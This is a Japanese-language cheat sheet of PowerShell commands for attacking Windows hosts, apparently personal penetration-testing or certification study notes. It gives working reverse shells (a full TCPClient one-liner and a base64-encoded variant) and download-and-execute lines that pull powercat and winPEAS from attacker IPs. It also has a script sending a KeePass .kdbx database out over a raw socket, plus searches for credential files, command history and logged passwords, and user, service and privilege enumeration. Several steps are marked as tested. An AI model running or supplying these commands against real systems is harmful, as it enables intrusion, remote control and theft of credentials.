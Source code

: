 ## 現在の実行環境がコマンドプロンプトかPowerShellかをチェック
```.ps1
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## 攻撃者のマシンからリバースシェルのスクリプトをダウンロードして実行する
```.ps1
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c <attacker IP> -p 4444 -e powershell
```

## Kali上でPowershell用のリバースシェルを生成してbase64エンコードのまま送信後、デコード・実行させる

1. パワーシェルをKali上で起動
```
pwsh
```

2. Powershellのリバースシェル用コマンドをText変数に入れる
```.ps1
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

3. 
```.ps1
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```

4. エンコードする
```.ps1
$EncodedText =[Convert]::ToBase64String($Bytes)
```

5. base64エンコードした文字列をターミナルに出力する
```.ps1
$EncodedText
```

6. ターゲット上でエンコードしたPowershellのリバースシェルコマンドをデコードさせて実行する
```.ps1
powershell%20-enc%20<先ほどの出力された$EncodedTextの内容>
```

7. Windowsターゲット上で、C:\配下の全ファイルを列挙。このケースでは.kdbxの拡張子のファイルを列挙
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

8. Attackerマシンからpowercatを取得して実行し、リバースシェルを取る
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.243/powercat.ps1');powercat -c 192.168.45.243 -p 4444 -e cmd"
```

9. 単純なリバースシェルコマンドで、コマンドプロンプトから実行させると動くのを確認済み
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.243',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

10. Kali側でncを使ってデータをレシーブ状態にさせて、データをPowershell側から送信する。動作検証済み
```
$content = Get-Content 'Database.kdbx' -Raw
$socket = New-Object System.Net.Sockets.TcpClient('192.168.45.243', 9999)
$stream = $socket.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$writer.Write($content)
$writer.Flush()
$writer.Close()
$socket.Close()
```

11. Windows環境のローカルユーザを列挙する
```
Get-LocalUser
```

12. paulがローカルのどのグループのメンバーであるかを確認する
```
net user paul
```

13. ホスト上の既存のグループを列挙する
```
Get-LocalGroup
```

14. adminteamというローカルグループのメンバーを確認する
```
Get-LocalGroupMember adminteam
```

15. インストールされているすべてのアプリケーションを列挙する
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

16. 実行中のアプリケーションを一覧表示する
```
Get-Process
```

17. 認証情報が置かれてそうなファイルをすべて列挙
```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

18. 過去に実行されたコマンドのリストを取得する
```
Get-History
```

19. PSReadlineモジュールからPowerShellの実行履歴を取得したファイルパスを出力する(PSReadlineというモジュールによってコマンド履歴が記録されるが、これはClear-Historyコマンドでは削除されない)
```
(Get-PSReadlineOption).HistorySavePath
```

19. passというキーワードで、windows上のイベントビューアから平文のパスワードがPowerShell経由で実行されていないか、スクリプトブロックログを検索する
```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object { $_.Message -match "pass" }
```

20. ターゲット上で、attacker端末からwinPEASをダウンロードして落としてくる
```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```

21. ターゲットのWindows上で動いているサービスのバイナリの名前、状態、パスを取得する。  
winRMやbindshellで行うと失敗するので、RDP等の対話型ログオンをする必要がある。
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

22. icaclsでバイナリに対応するアクセス権限とプリンシパルを表示する
```
icacls "C:\xampp\apache\bin\httpd.exe"
```
icaclsの権限は以下の通り  
MASK	PERMISSIONS  
F	Full access  
M	Modify access  
RX	Read and execute access  
R	Read-only access  
W	Write-only access  

23. mysqlサービスのスタートアップの種類を確認する
```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

24. 自分の権限をすべて確認する
```
whoami /priv
```